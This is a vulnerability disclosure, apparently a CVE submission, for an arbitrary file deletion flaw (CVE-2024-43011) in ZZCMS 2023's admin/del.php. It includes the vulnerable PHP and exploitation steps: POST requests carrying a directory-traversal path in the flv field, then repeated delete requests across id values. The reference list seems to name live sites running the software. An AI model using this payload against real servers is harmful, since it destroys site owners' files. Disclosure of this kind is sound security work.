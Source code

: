 # ZZCMS 2023 任意文件删除漏洞 admin/del.php

## CVE-ID

**CVE-2024-43011**

## Vulnerability type 

Insecure Permissions 

## Vendor of the product(s) 

http://www.zzcms.net/about/download.html

## Affected product(s)/code base 

## Product	* Version	

ZZCMS
<=2023(latest)



## Optional

Has vendor confirmed or acknowledged the vulnerability? No

## Attack type info 

Remote

Other : With administrator rights, attacker can delete any file.

## Affected component(s)

```
The vulnerability exists in the admin/del.php file at line 62, unlink($f);
```



## Attack vector(s)

```
[Administrator permissions required.]An arbitrary file deletion vulnerability exists in the admin/del.php file at line 62. Due to insufficient validation and sanitization of user input for file paths, an attacker can exploit this vulnerability by using directory traversal techniques to delete arbitrary files on the server. This can lead to the deletion of critical files, potentially disrupting the normal operation of the system.
Exploitation Examples:
Insert the file path to be deleted:
URL: http://127.0.0.3/admin/zs_edit.php
POST Data: action=add&passed=1&classid=1&groupid_guest=1&jifen=1&flv=test/../uploadfiles/../1.php
Delete the file:
URL: http://127.0.0.3/admin/del.php
POST Data: id={}&tablename=zzcms_zhaoshang
[Note that the id we need to try,1,2,3,4......]
```



## Suggested description of the vulnerability for use in the CVE 

```
An arbitrary file deletion vulnerability exists in the admin/del.php file at line 62. Due to insufficient validation and sanitization of user input for file paths, an attacker can exploit this vulnerability by using directory traversal techniques to delete arbitrary files on the server. This can lead to the deletion of critical files, potentially disrupting the normal operation of the system.
```



## Discoverer(s)/Credits info

GKDf1sh



## Reference(s) info

```
https://www.88zsw.com
http://www.818yyzs.com
https://www.qibai.cc
http://www.weixumu.cn
http://www.eshouyao.com
http://www.66988.tv/
http://www.dl580.tv/
```



## Additional information

```PHP
[Administrator permissions required.]
Vulnerable Code in admin/del.php file :
if ($tablename == "zzcms_zhaoshang") {
    checkadminisdo("zs_del");
    if (strpos($id, ",") > 0) {
        $sql = "select classid,img,flv,id,sm from zzcms_zhaoshang where id in (" . $id . ")";
    } else {
        $sql = "select classid,img,flv,id,sm from zzcms_zhaoshang where id='$id'";
    }
    $rs = query($sql);
    while ($row = fetch_array($rs)) {
/*Omission of this part*/

        if ($row["flv"] <> "" && substr($row["flv"], 0, 4) <> "http" && strpos($row["flv"], '/uploadfiles') !== false) {
            $f = "../" . substr($row['flv'], 1);
            if (file_exists($f)) {
                unlink($f);
            }
        }
```

